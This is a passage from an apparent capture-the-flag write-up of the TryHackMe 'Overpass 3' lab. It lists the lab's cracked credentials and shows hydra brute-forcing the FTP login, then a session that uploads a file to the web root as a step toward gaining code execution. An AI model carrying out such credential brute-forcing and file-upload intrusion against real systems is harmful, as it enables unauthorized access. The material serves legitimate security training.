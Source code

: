 Opening the decrypted file, I found a list of usernames and passwords

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-3/1.png">

```
paradox:ShibesAreGreat123
0day:OllieIsTheBestDog
muirlandoracle:A11D0gsAreAw3s0me
```

## Exploitation

Using the credentials I used hydra to bruteforce the ftp login and got a hit

```console
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
└─# hydra -L users -P pass overpass.thm ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-20 20:17:55
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ftp://overpass.thm:21/
[21][ftp] host: overpass.thm   login: paradox   password: ShibesAreGreat123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-20 20:18:00
```

Logging in to the ftp server with the credentials and enumerating I found that the ftp directory was also the directory for the web server. I found that I could upload files to the directory and I tested this using a hello.txt file.

```console
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
└─# ftp overpass.thm
Connected to overpass.thm.
220 (vsFTPd 3.0.3)
Name (overpass.thm:root): paradox
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 48       48             24 Nov 08 21:25 backups
-rw-r--r--    1 0        0           65591 Nov 17 20:42 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17 20:42 index.html
-rw-r--r--    1 0        0             576 Nov 17 20:42 main.css
-rw-r--r--    1 0        0            2511 Nov 17 20:42 overpass.svg
226 Directory send OK.

ftp> put hello.txt
local: hello.txt remote: hello.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
6 bytes sent in 0.00 secs (66.5838 kB/s)
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 48       48             24 Nov 08 21:25 backups
-rw-r--r--    1 0        0           65591 Nov 17 20:42 hallway.jpg
-rw-r--r--    1 1001     1001            6 Apr 20 19:21 hello.txt
```